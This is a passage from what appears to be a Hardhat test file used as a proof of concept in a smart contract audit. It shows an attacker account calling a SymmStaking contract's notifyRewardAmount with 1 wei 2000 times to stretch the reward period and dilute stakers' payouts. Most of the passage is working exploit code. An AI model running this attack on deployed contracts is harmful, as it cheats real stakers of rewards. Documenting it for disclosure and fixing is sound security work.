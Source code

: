 ```tsx
		console.log("\n== INITIAL SETUP ==");
		console.log(`Admin added: ${ethers.formatUnits(rewardUSDT, usdtDecimals)} USDT as legitimate rewards`);
		console.log(`Original reward period: ${rewardsDuration / 86400} days`);
		
		// 3. Attacker executes grief attack by calling notifyRewardAmount with 1 wei multiple times
		const attacker = user3;

		// Give attacker some USDT for the attack
		await usdtToken.connect(admin).transfer(attacker.address, BigInt(10) * BigInt(10) ** BigInt(usdtDecimals));
		
		console.log("\n== ATTACK EXECUTION ==");
		console.log("Attacker is executing grief attack by calling notifyRewardAmount with 1 wei repeatedly...");
		
		// Attacker calls notifyRewardAmount with 1 wei repeatedly
		const attackCalls = 2000; // Number of attack calls
		const microAmount = BigInt(1); // 1 wei
		
		for (let i = 0; i < attackCalls; i++) {
			await usdtToken.connect(attacker).approve(await symmStaking.getAddress(), microAmount);
			await symmStaking.connect(attacker).notifyRewardAmount([await usdtToken.getAddress()], [microAmount]);
		}
		
		console.log(`Attacker completed ${attackCalls} tiny reward notifications`);

		// Check period extension
		const rewardState = await symmStaking.rewardState(await usdtToken.getAddress());
		const newPeriodFinish = rewardState.periodFinish;
		const expectedFinish = rewardsStartTime + rewardsDuration;
		const extension = Number(newPeriodFinish) - expectedFinish;
		
		console.log(`Period extended by: ${Math.floor(extension / 86400)} days and ${Math.floor((extension % 86400) / 3600)} hours`);
		
		// 4. Two legitimate users stake 100 SYMM each
		const user1Stake = BigInt(100) * BigInt(10) ** BigInt(18); // 100 SYMM
		const user2Stake = BigInt(100) * BigInt(10) ** BigInt(18); // 100 SYMM
		
		// Give users SYMM tokens
		await stakingToken.connect(admin).transfer(user1.address, user1Stake);
		await stakingToken.connect(admin).transfer(user2.address, user2Stake);
		
		// Users stake their tokens
		await stakingToken.connect(user1).approve(await symmStaking.getAddress(), user1Stake);
		await symmStaking.connect(user1).deposit(user1Stake, user1.address);
		
		await stakingToken.connect(user2).approve(await symmStaking.getAddress(), user2Stake);
		await symmStaking.connect(user2).deposit(user2Stake, user2.address);
		
		console.log("\n== LEGITIMATE USERS STAKE ==");
		console.log(`User1 deposited: ${ethers.formatUnits(user1Stake, 18)} SYMM`);
		console.log(`User2 deposited: ${ethers.formatUnits(user2Stake, 18)} SYMM`);
		console.log("Each user should earn 500 USDT after 1 week (50% of pool each)");
		
		// 5. Fast forward to what would have been the end of the original reward period
		await time.increaseTo(rewardsStartTime + rewardsDuration);
		
		// Check earned rewards at original end time
```